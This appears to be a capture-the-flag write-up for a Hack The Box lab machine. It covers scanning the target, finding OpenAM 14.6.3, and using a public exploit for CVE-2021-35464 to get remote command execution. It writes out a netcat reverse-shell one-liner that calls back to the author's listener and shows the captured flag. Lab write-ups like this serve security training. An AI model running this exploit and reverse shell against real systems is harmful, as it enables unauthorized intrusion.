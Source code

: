 # Manager - User

Some basic info after starting the instance and connecting to the challenge VPN network via `openvpn` -  
Target IP - 10.129.173.138  
Local IP - 10.10.14.10
Verified that my local machine could talk to the target using `ping`.

# Information Gathering
Did a quick Nmap scan of the IP to list down detailed info about open ports, protocols, services running, OS info, version info and quickly see what the target looks like.
```
$ sudo nmap -A -T4 10.129.173.138 -Pn
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-26 19:21 EDT
Nmap scan report for 10.129.173.136
Host is up (0.085s latency).
Not shown: 997 closed ports
PORT      STATE SERVICE  VERSION
22/tcp    open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ad:a9:f3:f4:f6:a7:0e:9f:d0:25:b6:f4:21:df:6a:11 (RSA)
|   256 0b:b6:38:74:7d:97:bd:1e:a5:ef:35:f8:ef:4d:c6:a6 (ECDSA)
|_  256 81:29:51:ee:09:a8:91:ec:3f:dc:0d:50:d7:25:2a:46 (ED25519)
8080/tcp  open  http     Apache Tomcat 9.0.48
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Did not follow redirect to http://manager.htb:8080/openam/
34571/tcp open  java-rmi Java RMI
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.91%E=4%D=7/26%OT=22%CT=1%CU=44213%PV=Y%DS=2%DC=T%G=Y%TM=60FF43C
OS:D%P=x86_64-pc-linux-gnu)SEQ(SP=FF%GCD=1%ISR=105%TI=Z%CI=Z%II=I%TS=C)SEQ(
OS:SP=FE%GCD=1%ISR=103%TI=Z%CI=Z%TS=A)OPS(O1=M54DST11NW7%O2=M54DST11NW7%O3=
OS:M54DNNT11NW7%O4=M54DST11NW7%O5=M54DST11NW7%O6=M54DST11)WIN(W1=FE88%W2=FE
OS:88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M54DNNSNW7
OS:%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=
OS:Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%
OS:RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0
OS:%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIP
OS:CK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 143/tcp)
HOP RTT      ADDRESS
1   78.46 ms 10.10.14.1
2   81.44 ms 10.129.173.136

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 62.27 seconds
```

A Tomcat webserver was running on `8080/tcp` and revealed some interesting info
```
|_http-title: Did not follow redirect to http://manager.htb:8080/openam/
```

Added an entry in `/etc/hosts` file on my local machine for the DNS to work. Note the use of `sudo` to edit it because it's a system file owned by `root`.
```
$ sudo vim /etc/hosts

127.0.0.1       localhost
127.0.1.1       kali
10.129.173.136  manager.htb
```

Browsed to `http://manager.htb:8080/` and it redirected to a login form to OpenAM - Open Access Manager. OpenAM is an open-source access management, entitlements and federation server platform.

![OpenAM](./img/manager-user.png)

Gathered some header info from the `Network` tab in browser dev tools.

![headers](./img/manager-headers.png)

Found the OpenAM version - `v: 14.6.3`

Based on this initial info, did a quick search on the ExploitDB using `searchsploit` CLI tool to see if an exploit is available and surely there was one! 

```
$ searchsploit openam 14.6.3
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                                             |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
ForgeRock Access Manager/OpenAM 14.6.3 - Remote Code Execution (RCE) (Unauthenticated)                                                                                                                     | java/webapps/50131.py
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Fetched the exploit

```
$ searchsploit -m 50131
  Exploit: ForgeRock Access Manager/OpenAM 14.6.3 - Remote Code Execution (RCE) (Unauthenticated)
      URL: https://www.exploit-db.com/exploits/50131
     Path: /usr/share/exploitdb/exploits/java/webapps/50131.py
File Type: UTF-8 Unicode text, with very long lines, with CRLF line terminators

Copied to: /home/kali/50131.py
```

Reviewed the exploit code to check if any edits are necessary for the exploit to work correctly and also to make sure the exploit did only what it said it did and nothing more. In this case, only the target URL was modified as applicable.  
> Note: ALWAYS review any exploit that you have not written before using it.

```
## Static vars; change at will, but recommend leaving as is
sURL = 'http://10.129.173.138:8080/openam'
```

Renamed the exploit name. This really was optional but I like to name them something meaningful and easy to recognize. 

```
$ mv 50131.py CVE-2021-35464.py
```

Now the exploit was ready to be used.

# Exploit and Solve

Did a quick check using `id` to see if the exploit was returning expected results.

```
$ python3 CVE-2021-35464.py -c id http://manager.htb:8080/openam/

[!] Verifying reachability of http://manager.htb:8080/openam/
[+] Endpoint http://manager.htb:8080/openam/ reachable
[!] Finding correct OpenAM endpoint
[+] Found potential vulnerable endpoint: http://manager.htb:8080/openam/oauth2/..;/ccversion/Version
[+] !SUCCESS! Host http://manager.htb:8080/openam/ is vulnerable to CVE-2021-35464
[+] Running command "id" now:

uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
```

Perfect! Remote Command Execution (RCE) worked. I also verified that netcat was available at `/bin/nc`. Now all I needed was a reverse shell on the target and my go to cheat sheet for a variety of them is [Pentest Monkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet).

I chose to use the below. Notice the modified IP, port and shell choice.

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.10 1234 >/tmp/f
```

Started a `nc` listener to receive the reverse shell

```
$ nc -nlvp 1234
listening on [any] 1234 ...
```

Executed the exploit

```
$ python3 CVE-2021-35464.py -c "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.10 1234 >/tmp/f" http://manager.htb:8080/openam/                                                  

[!] Verifying reachability of http://manager.htb:8080/openam/
[+] Endpoint http://manager.htb:8080/openam/ reachable
[!] Finding correct OpenAM endpoint
[+] Found potential vulnerable endpoint: http://manager.htb:8080/openam/oauth2/..;/ccversion/Version
[+] !SUCCESS! Host http://manager.htb:8080/openam/ is vulnerable to CVE-2021-35464
[+] Running command "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.10 1234 >/tmp/f" now:
```

Connection and shell received

```
connect to [10.10.14.10] from (UNKNOWN) [10.129.173.138] 48794
tomcat@manager:/$ whoami
whoami
tomcat
tomcat@manager:~$ ls ~
ls ~
accessmanager  conf    lib   openam  user.txt  work
bin            config  logs  temp    webapps
tomcat@manager:~$ cat user.txt  
cat user.txt
HTB{1n53cur3_d353r14l1z4710n_c4n_b3_v3ry_d4n63r0u5}
```

Flag - `HTB{1n53cur3_d353r14l1z4710n_c4n_b3_v3ry_d4n63r0u5}`